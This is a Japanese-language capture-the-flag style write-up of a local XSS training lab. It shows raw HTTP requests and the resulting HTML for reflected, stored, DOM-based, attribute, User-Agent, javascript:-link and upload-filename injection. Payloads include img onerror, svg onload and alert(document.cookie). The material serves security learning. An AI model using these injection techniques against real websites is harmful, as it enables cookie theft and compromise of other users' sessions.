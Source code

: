 # Cross Site Scripting (XSS)
It allows client-side code to be injected into web pages viewed by other users.

## Basic Reflected
入力フォームに`<img src=# onerror=alert(1)>`などを入れてSubmitすれば発火する。
```http
GET /lab/xss/basic-reflected/index.php?q=%3Cimg+src%3D%23+onerror%3Dalert%281%29%3E HTTP/1.1
Host: 127.0.0.1:1337
Referer: http://127.0.0.1:1337/lab/xss/basic-reflected/index.php
Cookie: PHPSESSID=jcq93cbuj03f4jm7heim20rdd9; lang=en
Connection: close

```
```html
<body>
  <div class="container d-flex justify-content-center align-items-center h-100 mx-auto">
    <div class="alert alert-danger" style="margin-top: 30vh;" role="alert" >
    No Result Found for <b><img src=# onerror=alert(1)></b> <a href="index.php" ">Try Again</a></div>
    </div>
  <script id="VLBar" title="Basic Reflected" category-id="1" src="/public/assets/js/vlnav.min.js"></script>
</body>
```

## Basic Stored
入力フォームに`<svg onload=alert(1)>`などを入れて投稿すると保存され、以降アクセスするたびに発火する。
```http
POST /lab/xss/basic-stored/stored.php HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Referer: http://127.0.0.1:1337/lab/xss/basic-stored/stored.php
Cookie: PHPSESSID=jcq93cbuj03f4jm7heim20rdd9; lang=en
Connection: close

mes=hogehoge%3Csvg+onload%3Dalert%281%29%3E
```
```html
<div class="msg col-md-6 m-3 px-4 bg-primary text-wrap " style="border-radius: 20px; padding: 5px;width: fit-content;color: aliceblue;">
  hogehoge<svg onload=alert(1)>
</div>
```

## Basic Dom-Based
数字を入力すると乗算をした結果を返す。
```php
        echo '<script>';
        echo 'var height = '.$_GET['height'].';';
        echo 'var base = '.$_GET['base'].';';
        echo 'var ans = base * height / 2;';
        echo 'document.getElementById("answer").innerHTML = "'.$strings['alert'].' "+ans;';
        echo '</script>';
```

適当に`hogehoge`,`fugafuga`と入力した状態のDOMは以下の通り。
```html
<script>
  var height = hogehoge;
  var base = fugafuga;
  var ans = base * height / 2;
  document.getElementById("answer").innerHTML = "Area: "+ans;
</script>
```
JavaScriptの構文を合わせてあげればよい。  
hogehoge`の代わりに`777;alert(document.cookie)`などを入力すれば発火する。
```html
<script>
  var height = 777;alert(document.cookie);
  var base = 100;
  var ans = base * height / 2;document.getElementById("answer").innerHTML = "Area: "+ans;
</script>
```

ただ、これはJavaScript内へのReflected XSSの気がするため、想定解なのか不明。

## HTML Attribute Manipulation
入力欄に適当に`hoge`と入れてレスポンスを確認する。
```html
<div class="ticket alert alert-primary" style="max-width: 50vw;">
  <h6>
    <a href="ticket.php?name=hoge"> SEE YOUR TICKET </a>
  </h6>
</div>
```

入力したhogeがhref要素に入り、リンク先の一部として扱われていることが分かる。
`"`を一度閉じればイベントハンドラを追加できるので、`hoge" onmouseover="alert(1)`などとする。
```html
<div class="ticket alert alert-primary" style="max-width: 50vw;">
  <h6>
    <a href="ticket.php?name=hoge" onmouseover="alert(1)"> SEE YOUR TICKET </a>
  </h6>
</div>
```

## Welcome to Our Gallery
imageボタンを押すと数字だけのパラメータが飛び、後ろに`.jpg`が付いた結果が返ってくる。  
`img=1`の場合、以下の通り。
```html
<img class="shadow-lg bg-body rounded" style="width:500px;padding : 0; margin-bottom: 0;" src="1.jpg"/>
```

構文を壊さずにimgタグに対してイベントハンドラを埋め込めばよい。

クエリパラメータ`?img=x"onerror="alert(1)//`の場合、対象の画像なしで即時発火。
```html
<img class="shadow-lg bg-body rounded" style="width:500px;padding : 0; margin-bottom: 0;" src="x"onerror="alert(1)//.jpg"/>
```

`.jpg`を付けて存在するファイル名にしてあげる場合`?img=1.jpg"onmouseover="alert(1)//`のように書ける。
```html
<img class="shadow-lg bg-body rounded" style="width:500px;padding : 0; margin-bottom: 0;" src="1.jpg"onmouseover="alert(1)//.jpg"/>
```

## User Agent
mandalorianユーザでログインするとアクセス履歴のようなものを見させられる。  
使用しているブラウザのUser-Agentがそのまま画面に表れていることが分かる。

Click Hereボタン押下時のUser-Agentをスクリプトに書き換えれば発火する。
```http
POST /lab/xss/user-agent/user_agent_stored.php HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 2
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0<script>alert(1)</script>
Cookie: PHPSESSID=jcq93cbuj03f4jm7heim20rdd9; lang=en
Connection: close

a=
```

## News
ニュースのタイトルとURLを登録するとリンクを張ってくれる。  
URLをhttpでなくJavaScriptスキーマで書くと、リンク押下時に発火させることができる。
```http
POST /lab/xss/news/ HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=jcq93cbuj03f4jm7heim20rdd9; lang=en
Connection: close

title=hogehoge&link=javascript%3Aalert%281%29
```
```html
<tr>
  <th>3</th>
  <td><a href="javascript:alert(1)"style="text-decoration: none;">hogehoge</a></td>
```

なお、`"`は無害化されてしまうため、イベントハンドラを入れるのは無理そう。

## File Upload
画像ファイルをアップロードできる。
```http
POST /lab/xss/image-upload/index.php HTTP/1.1
Host: localhost:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGGBjpOPOUAqCkMJm
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9


------WebKitFormBoundaryGGBjpOPOUAqCkMJm
Content-Disposition: form-data; name="image"; filename="1x1.png"
Content-Type: image/png

�PNG
------WebKitFormBoundaryGGBjpOPOUAqCkMJm
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryGGBjpOPOUAqCkMJm--
```

レスポンスにはこんな感じで
```html
<div class="container-wrapper">
<div class="row pt-5 mt-5 mb-3 d-flex justify-content-center">
<div class="row col-md-4 text-center d-flex justify-content-center shadow-lg p-3 mb-5 rounded">
<img src="uploads/1x1.png                            " style="width: 300px;margin-top: 8px;" class="rounded-circle" alt="" srcset="">
<form action="#" method="post" enctype="multipart/form-data">
 ```
 
 半角スペースが入っている意味は不明だが、ファイル名が`<img src="upload/"`の後ろに出ていることが分かる。

ダブルクォーテーションで閉じることができるか試してみる。
```http
POST /lab/xss/image-upload/index.php HTTP/1.1
Host: localhost:1337
Content-Length: 312
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZ2hDGxPdrsacLlEu
Connection: close

------WebKitFormBoundaryZ2hDGxPdrsacLlEu
Content-Disposition: form-data; name="image"; filename="\"onerror=\"alert(1)\".gif"
Content-Type: image/gif

GIF87aaaaaaaa
------WebKitFormBoundaryZ2hDGxPdrsacLlEu
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryZ2hDGxPdrsacLlEu--
```

レスポンスで、src属性から外にイベントハンドラが追加されており、XSSが動作する。
```html
<div class="container-wrapper">
<div class="row pt-5 mt-5 mb-3 d-flex justify-content-center">
<div class="row col-md-4 text-center d-flex justify-content-center shadow-lg p-3 mb-5 rounded">
<img src="uploads/"onerror="alert(1)".gif                            " style="width: 300px;margin-top: 8px;" class="rounded-circle" alt="" srcset="">
<form action="#" method="post" enctype="multipart/form-data">
<div class="">
```






